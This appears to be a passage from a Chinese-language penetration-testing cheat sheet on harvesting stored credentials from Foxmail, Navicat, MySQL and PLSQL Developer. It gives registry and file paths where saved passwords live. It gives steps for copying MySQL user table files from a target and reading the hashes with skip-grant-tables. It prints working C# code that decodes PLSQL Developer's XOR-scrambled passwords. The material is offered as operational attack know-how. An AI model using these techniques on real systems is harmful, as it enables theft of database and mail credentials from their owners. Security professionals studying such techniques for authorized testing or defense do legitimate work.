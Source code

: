 **Foxmail**
- [Foxmail Password Decryptor](https://securityxploded.com/foxmail-password-decryptor.php)
    - 解密 Foxmail 安装目录下的 Storage 目录中的 Account.rec0 文件

**Navicat**
- [HyperSine/how-does-navicat-encrypt-password](https://github.com/HyperSine/how-does-navicat-encrypt-password)
- 数据库连接记录 : `HKEY_CURRENT_USER\Software\PremiumSoft\Navicat\Servers\`
- 当前用户的所有连接记录 : `HKEY_CURRENT_USER\Software\PremiumSoft`

**Mysql**
- 离线解密(mysql5.0)

    1. 将目标 Mysql data 目录下的 user.frm ,user.MYD ,user.MYI 文件托回
    2. 本地安装 MySQL Server，装完之后立即停掉服务，将拖回来的那三个文件分别丢到 C:\Program Files\MySQL\MySQL Server\data\mysql 目录下进行替换
    3. 修改 Mysql 服务配置文件 C:\Program Files\MySQL\MySQL Server\my.ini 在 mysqld 配置项下添加如下配置，之后启动 Mysql 服务
    ```
    skip-grant-tables
    ```
    4. 无需密码直接登录 mysql 执行, 即可拿到完整的密码 hash
    ```
    mysql> select user,password,host from mysql.user;
    ```

**PLSQL**
- 离线解密

    1. PLSQL Developer默认连接账密保存位置位于当前用户如下路径的user.prefs文件中，账号和密码的加密方式比较简单，只是简单异或
        ```
        C:\Users\<username>\AppData\Roaming\PLSQL Developer\Preferences\<username>\
        C:\Program Files\PLSQL Developer\Preferences\<username>\
        C:\Program Files (x86)\PLSQL Developer\Preferences\<username>\
        ```

    2. user.prefs文件需关注LogonHistory和CurrentConnections下的内容，每一行都代表一条单独的连接记录
    3. 将 LogonHistoryCurrentConnections 下的内容原样粘回本地，在代码中替换，解密即可
        ```c#
        using System;
        using System.Collections.Generic; using System.IO;
        public class Program
        {
        public static void Main() {
        var values = new List<int>(); var ret = string.Empty;
        string scrambled = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"; for (var i = 0; i < scrambled.Length; i += 4)
        {
        values.Add(Convert.ToInt32(scrambled.Substring(i, 4))); }
        var key = values[0]; values.RemoveAt(0);
        for (var i = 0; i < values.Count; i++) {
        var val = values[i] - 1000;

        var mask = key + (10 * (i + 1));
        ret += (char)((val ^ mask) >> 4); }
        Console.WriteLine(ret); }
        }
        ```

---